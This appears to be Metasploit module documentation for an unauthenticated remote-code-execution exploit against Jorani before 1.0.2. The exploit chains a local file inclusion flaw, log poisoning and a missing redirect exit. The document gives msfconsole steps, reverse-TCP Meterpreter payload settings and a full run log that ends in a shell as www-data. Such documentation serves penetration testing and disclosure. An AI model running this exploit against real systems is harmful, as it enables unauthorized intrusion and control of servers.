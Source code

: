 ## Vulnerable Application

Jorani prior to 1.0.2 allows unauthenticated users to execute arbitrary code.

This is due to a lack of sanitization on the language parameter, which can lead to the file inclusion of arbitrary ".php" files.

Moreover, the log file for jorani ends with ".php" in Jorani < 1.0.2.

Log poisoning is possible, an attacker can abuse this to store malicious data in the log file.

Data like '<?php ...;?>' can been added to the log file, then if this file is included by php, it will be executed.

Finally, the controller responsible for recovering a page doesn't properly redirect requests made by Ajax.

So the scripts will not stop after the redirection because an exit statement is missing.

Because of this, the attacker can make the script continue and reach the LFI vulnerability without being authenticated.

So by chaining these 3 vulnerabilities an unauthenticated user can execute arbitrary code on the application.

This module has been tested successfully on Jorani 1.0.0, Ubuntu 20.04 (x86_64) with kernel version 5.15.0-75.

### Installation Steps
For a step by step installation tutorial on Ubuntu please refer to [How to install Jorani](https://jorani.org/how-to-install-jorani.html)

## Verification Steps
1. Start `msfconsole`
2. `use exploit/multi/php/jorani_path_trav`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`. The result expected is `The target appears to be vulnerable.`
5. Default payload for the exploit will be `php/meterpreter/reverse_tcp`
6. set `LHOST`
7. `exploit`
8. Confirm you have now a cmd session as www-data

## Options

### TARGETURI (optional)
The path to the jorani website. By default it is empty.

## Scenarios

```
msf exploit(multi/php/jorani_path_trav) > options

Module options (exploit/multi/php/jorani_path_trav):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.158   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  jorani           yes       The base path of Jorani
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Jorani < 1.0.2



View the full module info with the info, or info -d command.

msf exploit(multi/php/jorani_path_trav) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Jorani version
[+] Jorani seems to be running on the target!
[+] Found version: 1.0.0
[+] The target appears to be vulnerable.
[*] Trying to exploit LFI
[*] Recovering CSRF token
[+] CSRF found: be7e8205ad5f1fae2834478acdd0b546
[*] Poisoning log with payload..
[*] Sending 1st payload
[*] Including poisoned log file log-2023-08-18.php.
[+] Triggering payload
[*] Sending stage (39927 bytes) to 172.16.199.158
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.158:39624) at 2023-08-18 15:01:55 -0400

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 5.15.0-79-generic #86~20.04.2-Ubuntu SMP Mon Jul 17 23:27:17 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > exit
```

